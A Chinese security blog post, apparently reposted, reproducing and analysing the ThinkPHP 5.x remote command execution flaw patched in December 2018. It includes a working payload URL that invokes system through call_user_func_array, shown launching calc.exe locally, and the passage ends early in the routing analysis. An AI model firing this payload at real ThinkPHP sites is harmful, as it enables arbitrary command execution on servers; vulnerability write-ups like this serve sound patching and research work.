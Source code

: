 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[blog.riskivy.com\](https://blog.riskivy.com/thinkphp5-x%e8%bf%9c%e7%a8%8b%e5%91%bd%e4%bb%a4%e6%89%a7%e8%a1%8c%e6%bc%8f%e6%b4%9e%e5%88%86%e6%9e%90/)

前言
--

2018 年 12 月 9 日，ThinkPHP5.\* 版本发布[安全更新](https://blog.thinkphp.cn/869075)，本次版本更新主要涉及一个安全更新，由于框架对控制器名没有进行足够的检测会导致在没有开启强制路由的情况下可能的 getshell 漏洞。  
[![](https://blog.riskivy.com/wp-content/uploads/2018/12/1-1.png)](https://blog.riskivy.com/wp-content/uploads/2018/12/1-1.png)

漏洞复现
----

环境

```
http://www.thinkphp.cn/down/1260.html //官网下载ThinkPHP5.0.22完整版
PHP-7.0.12-NTS + Apache


```

Payload:  
这里 vars\[0\] 为 call\_user\_func\_array 调用的函数名，vars\[1\]\[\] 为调用的函数参数。

```
http://127.0.0.1/thinkphp\_5.0.22\_with\_extend/public/index.php?s=index/\\think\\app/invokefunction&function=call\_user\_func\_array&vars\[0\]=system&vars\[1\]\[\]=C:\\WINDOWS\\System32\\calc.exe


```

将下载的 thinkphp 解压到自己的 web 应用目录中，访问上述 Payload，即可触发漏洞，弹出计算器。

[![](https://blog.riskivy.com/wp-content/uploads/2018/12/2-1.png)](https://blog.riskivy.com/wp-content/uploads/2018/12/2-1.png)

phpinfo()  
[![](https://blog.riskivy.com/wp-content/uploads/2018/12/3-1.png)](https://blog.riskivy.com/wp-content/uploads/2018/12/3-1.png)

漏洞分析
----

观察 payload，可以发现其是 thinkPHP 兼容模式的路由，其格式类似如下：

```
http://localhost/?s=\[模块/控制器/操作?\]参数1=值1&参数2=值2


```

其对应的控制器类似：

```
<?php
namespace app\\index\\controller; //模块名为index

class Index //控制器名
{
    public function index() //操作方法
    {
        return 'hello world';
    }
}


```
